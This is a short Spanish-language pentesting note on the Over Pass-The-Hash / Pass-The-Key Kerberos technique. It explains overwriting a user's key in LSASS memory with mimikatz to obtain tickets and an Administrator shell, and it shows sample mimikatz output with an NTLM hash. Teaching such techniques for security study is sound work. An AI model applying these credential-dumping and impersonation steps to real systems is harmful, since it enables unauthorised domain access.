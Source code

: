 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Over Pass-The-Hash - Pass-The-Key

Lo que se va a realizar en esta tecnica es que cuando se realiza una autenticacion de `kerberos` este consulta en la `clave privada` cifrada con un `hash` del usuario que esta escrita en memoria ya para poder darle el `Ticket` de servicio, pues esta tecnica consiste en sobreescribir esta parte de la memoria por el `hash` que nosotros queramos poner ahi, para posteriormente poder obtener ese `ticket` y podernos hacer pasar por dicho usuario del `hash` que hayamos insertado en dicha memoria.

Vamos a utilizar `mimikatz` en este caso, como hemos visto antes podremos obtener el `hash` del usuario en las `logon sessions` del proceso `lsass` volcandolo con `mimikatz`.

Y despues realizabamos la tecnica de `pth` con el `mimikatz` para obtener una shell como el usuario `administrador` en `cmd`, en la informacion que nos daba, que era algo asi:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```
